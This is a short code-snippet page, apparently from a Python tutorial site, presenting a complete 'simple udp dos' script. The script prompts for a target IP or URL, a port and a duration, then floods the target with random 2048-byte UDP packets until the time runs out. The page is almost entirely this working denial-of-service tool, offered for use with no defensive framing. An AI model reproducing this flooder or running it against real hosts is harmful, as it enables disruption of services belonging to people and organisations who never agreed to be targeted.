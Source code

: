 ```yaml
---
title: python script simple udp dos (snippet)
date: 2020-03-03
tags: ["python"]
---
```

Python script 'simple udp dos'


Modules used in program: 
* `import random`
* `import socket`
* `import time`
* `import sys`
* `import os`

## python simple udp dos

Python example: simple udp dos

```python
import os
import sys
import time
import socket
import random

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(2048)

print("This is a simple tool for udp dos.")

ip = raw_input("Target ip or url: ")
port = input("Port: ")
dur = input("Time: ")

timeout = time.time() + dur
sent = 0

while True:
    try:
        if time.time() > timeout:
            break
        else:
            pass
        sock.sendto(bytes, (ip, port))
        sent += 1
        print("Sent %s packets to %s" % (sent, ip))
    except KeyboardInterrupt:
        sys.exit()

```

## Python links

- Learn Python: https://pythonbasics.org/
- Python Tutorial: https://pythonspot.com
